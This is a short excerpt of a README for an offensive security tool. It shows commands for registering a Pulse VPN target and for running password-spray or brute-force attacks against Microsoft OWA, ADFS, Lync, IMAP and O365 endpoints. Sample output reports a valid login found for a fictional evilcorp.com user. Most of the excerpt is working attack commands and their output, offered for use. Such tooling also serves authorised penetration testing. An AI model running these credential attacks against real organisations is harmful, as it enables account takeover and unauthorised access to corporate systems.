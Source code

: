 ##### Manually add a VPN endpoint

To manually add VPN endpoints, of course, specifying the top level domain would probably not be enough.
The correct way would be to specify a specific subdomain along with the specific port the VPN Web Server is 
running on.

```
python manage.py -w workspace1 vpn -c add -D vpn.evilcorp.com:443

[+] vpn.evilcorp.com:443 is a pulse target!
```

#### Perform a password spray or bruteforce attack against OWA, ADFS, LYNC, or O365

To perform a password spray or even bruteforce attack, the only required 
resource is a password list in the form of a text file, with one password 
per line.

```
python manage.py -w workspace1 office -c attack -P passwords.txt

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Choose an endpoint type to attack, or all to attack any supported endpoint
0 : owa
1 : lync
2 : imap
3 : adfs
4 : o365
5 : all
 $> 4
[*] Running O365Enumerator
  [-] elliot.alderson@evilcorp.com:MrRobot2021! is not valid.
  [+] tyrell.wellick@evilcorp.com:Joanna2021! is valid!
  [>] Found 1 valid logins
[*] Updating Db...
[+] Done
```


[1]: https://github.com/byt3bl33d3r/SprayingToolkit